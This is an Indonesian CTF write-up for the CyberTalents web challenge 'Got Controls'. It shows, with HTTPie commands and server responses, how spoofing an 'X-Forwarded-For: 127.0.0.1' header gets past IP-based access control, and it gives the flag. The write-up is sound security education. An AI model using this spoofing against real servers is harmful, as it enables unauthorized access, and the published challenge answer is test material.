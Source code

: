 ## [Writeup] Cyber Talents: Got Controls


Tutorial singkat kali ini akan membahas solusi untuk soal CTF [Cyber Talents: Got Controls](https://cybertalents.com/challenges/web/got-controls) yang termasuk ke dalam kategori web security. Berikut ini adalah petunjuk untuk soal tersebut:

```
We believe we made a good job protecting our infrastructure,
can you bypass our controls.
```

Kita dapat mengakses halaman untuk soal tersebut [pada tautan ini](http://35.197.254.240/gotcontrol/). Kita akan menggunakan [HTTPie](https://httpie.org) untuk mengerjakan soal tersebut. Pertama, kita akan mengakses halaman tersebut:

```bash
% http "http://35.197.254.240/gotcontrol/"
HTTP/1.1 200 OK
Allow: GET, POST, HEAD,OPTIONS
Connection: keep-alive
Content-Encoding: gzip
Content-Type: text/html; charset=UTF-8
Date: Mon, 03 Aug 2020 00:52:40 GMT
Server: nginx/1.10.3 (Ubuntu)
Transfer-Encoding: chunked

Sorry, your IP is not allowed, this server is only accessible from local machine or local LAN.
```

Pesan error tersebut memberitahukan bahwa kita hanya dapat mengakses server tersebut menggunakan IP dari mesin tersebut atau IP local LAN. Untuk menyelesaikan soal ini, kita akan menambahkan header [X-Forwarded-For](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-Forwarded-For) pada request yang kita kirimkan. Berikut ini adalah caranya:

```bash
% http "http://35.197.254.240/gotcontrol/" "X-Forwarded-For: 127.0.0.1"
HTTP/1.1 200 OK
Allow: GET, POST, HEAD,OPTIONS
Connection: keep-alive
Content-Encoding: gzip
Content-Type: text/html; charset=UTF-8
Date: Mon, 03 Aug 2020 00:56:06 GMT
Server: nginx/1.10.3 (Ubuntu)
Transfer-Encoding: chunked

You got me, here's the flag : FLAG{NEVER_TRUST_HEADERS}
```

Bisa terlihat, bahwa request tersebut berhasil, dan flagnya adalah `FLAG{NEVER_TRUST_HEADERS}`. Sekian tutorial singkat kali ini, semoga bermanfaat. Terima kasih kepada Allah SWT, dan Anda yang telah membaca tutorial ini.
